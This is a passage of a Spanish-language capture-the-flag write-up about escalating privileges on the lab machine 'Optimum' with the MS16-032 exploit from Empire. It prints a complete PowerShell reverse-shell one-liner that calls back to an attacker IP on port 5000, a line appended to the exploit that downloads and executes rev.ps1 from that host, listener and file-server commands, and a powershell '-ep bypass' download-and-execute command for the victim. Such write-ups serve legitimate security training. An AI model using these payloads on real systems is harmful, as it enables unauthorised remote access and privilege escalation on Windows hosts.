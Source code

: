 Vamos a descargar con [[wget]] con el comando `wget https://raw.githubusercontent.com/EmpireProject/Empire/refs/heads/master/data/module_source/privesc/Invoke-MS16032.ps1` [El exploit de empire](https://raw.githubusercontent.com/EmpireProject/Empire/refs/heads/master/data/module_source/privesc/Invoke-MS16032.ps1) y al final del exploit vamos a agregar la linea `Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.16.12/rev.ps1')"` para que se descargue y ejecute el archivo que va a enviarnos la [[Reverse shell]]

![[Optimum17.png]]

Ahora vamos a crear el archivo *rev.ps1* que seria lo mismo que el archivo *reverse.ps1* que usamos antes para ganar acceso a la maquina, pero ahora le vamos a cambiar el puerto ya que nos vamos a poner en escucha por el *5000*

```ps1
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.12',5000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Mientras estamos en escucha con [[rlwrap -cAr nc -lvnp 443]] con el comando `rlwrap nc -nlvp 5000` y con un server [[python3 -m http.server]] con el comando `python3 -m http.server 80` hosteando todos los archivos

Vamos a ejecutar desde la maquina victima el comando [[Descargar archivos que procesos de 32 bits accedan a version de 64 bits system32]]

```
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -ep bypass -c "iex (New-Object Net.WebClient).DownloadString('http://10.10.16.12/Invoke-MS16032.ps1')"
```

![[Optimum18.png]]

Ahora vamos a la pestaña que estamos en escucha en el puerto *5000* y ya estamos adentro y podemos catear la flag

![[Optimum19.png]]
